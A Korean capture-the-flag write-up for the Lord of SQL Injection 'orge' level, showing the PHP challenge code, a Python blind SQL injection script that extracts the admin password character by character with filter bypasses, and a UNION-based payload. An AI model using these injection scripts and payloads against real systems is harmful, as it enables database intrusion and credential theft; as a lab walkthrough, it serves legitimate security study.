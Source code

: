 # Lord of SQL Injection No.7 - orge

## 문제 출제 의도

OR, AND를 사용하지 않고 Blind SQL Injection을 수행하여 원하는 문자열을 얻어낼 수 있는지 확인한다.

또는 UNION 구문과 LIMIT을 이용하여 원하는 문자열을 얻어낼 수 있는지 확인한다.

## 소스 코드 분석

orge 문제의 php 소스 코드는 다음과 같다.
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```
-----

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
```
* GET방식으로 pw를 받고, pw에 `prob`, `_`, `.`, `(`, `)` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

* 또한, pw에 대소문자 구분 없이 `or`, `and` 가 들어 있으면 `HeHe`가 뜨고 문제 풀이에 실패한다.

```php
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
```
* 받은 pw가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.

* `$result['id']`에 "0"을 제외한 어떤 값이든 들어 있으면 응답에 "Hello "와 $result[id] 값을 붙인 문자열이 포함된다.

* 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 pw와 GET방식으로 전달받은 pw가 같음'이다. 즉, 실제 데이터베이스에 저장된 pw를 알아내서 전달해야 한다.

-----

## Solution
    
1. SUBSTR() 함수 활용

    Blind SQL Injection 문제이므로 4번 orc 문제에서 이용한 코드를 수정하여 활용한다.
    
    ```python
    import urllib.request
    from urllib.parse import quote

    key = ""

    # 4번 orc 문제에서 이용한 코드에서 추가된 부분
    pwlen = 0 # pw의 길이값을 저장한 변수

    for i in range(1, 20): # pw의 길이를 알아내기 위한 반복문. 길이가 1보다 크거나 같고 20보다 작다는 전제 하에 작동한다. 만약 길이를 알아내는 데 실패하면 범위를 넓힌다.
        url = "http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw="
        data = "' || id='admin' && length(pw)='{}'#".format(str(i)) # length() 함수를 통해 pw의 길이를 알아내는 부분이다.
        print(data)
        data = quote(data)
        re = urllib.request.Request(url + data)

        re.add_header(
            "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
        re.add_header(
            "Cookie", "PHPSESSID=jaqm7mrah73p9vvsj7mlp8ec23"
        )

        req = urllib.request.urlopen(re)

        if str(req.read()).find("Hello admin") != -1:
            pwlen = i # pw의 길이를 pwlen 변수에 저장한다.
            print('pw length : ' + str(pwlen))
            break
    # /4번 orc 문제에서 이용한 코드에서 추가된 부분

    for i in range(1, pwlen + 1): # i에는 1부터 pwlen까지 들어가도록 반복문을 구성
        for j in range(32, 127):
            url = "http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw="
            data = "' || id='admin' && substr(pw, 1, {})='{}'#".format( # or, and 를 ||, && 로 수정
                str(i), key + chr(j))
            print(data)
            data = quote(data)
            re = urllib.request.Request(url + data)

            re.add_header(
                "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
            re.add_header(
                "Cookie", "PHPSESSID=jaqm7mrah73p9vvsj7mlp8ec23"
            )

            req = urllib.request.urlopen(re)

            if str(req.read()).find("Hello admin") != -1:
                key += chr(j).lower()
                print(key)
                break
    print(key)
    ```

    이러한 코드를 실행하면 결과값으로 6c864dec 를 출력한다.
    이를 GET방식으로 pw의 값으로 전달하면 풀린다.
    
    ```
    http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw=6c864dec
    ```

2. UNION 구문 및 LIMIT 구문 이용 (2017년 9월 7일 목요일 기준 실행 불가능)

    7번 문제는 UNION 구문을 필터링 하지 않고 있으므로 UNION을 통해 바로 pw값을 알아내는 시도를 해볼 수 있다.

    ```
    http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw=-1' || @a:=pw %26%26 0 union select @a-- -
    ```

    ```
    select id from prob_orge where id='guest' and pw='' || @a:=pw && 0 union select @a-- -'
    ```

    ```
    Hello 6c864dec
    ```

    2017년 9월 7일 목요일 현재 SELECT 구문 입력이 차단된 것으로 보인다. SELECT 구문이 포함된 SQL Injection 시도 시 무한 로딩에 걸린다.